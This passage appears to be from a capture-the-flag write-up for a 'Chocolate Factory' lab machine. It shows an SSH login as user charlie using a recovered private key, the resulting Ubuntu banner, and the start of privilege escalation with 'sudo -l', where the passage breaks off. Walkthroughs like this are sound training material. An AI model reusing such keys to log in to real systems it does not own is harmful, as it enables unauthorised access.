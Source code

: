 ```

### Logging in as Charlie with that RSA Key

```
┌──(kali㉿kali)-[~/Desktop/ChocolateFactory]
└─$ ssh -i charlie_rsa charlie@10.10.49.132                    
The authenticity of host '10.10.49.132 (10.10.49.132)' can't be established.
ED25519 key fingerprint is SHA256:WwycVD8zBUVfJS6sNVj192MU3Q7P4rylVnanjGx/Q5U.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.49.132' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-115-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Nov  9 00:41:15 UTC 2023

  System load:  0.0               Processes:           493
  Usage of /:   43.6% of 8.79GB   Users logged in:     0
  Memory usage: 56%               IP address for eth0: 10.10.49.132
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Oct  7 16:10:44 2020 from 10.0.2.5
Could not chdir to home directory /home/charley: No such file or directory
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

charlie@chocolate-factory:/$ 
```

## Priv Esc

```
charlie@chocolate-factory:/home/charlie$ sudo -l
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

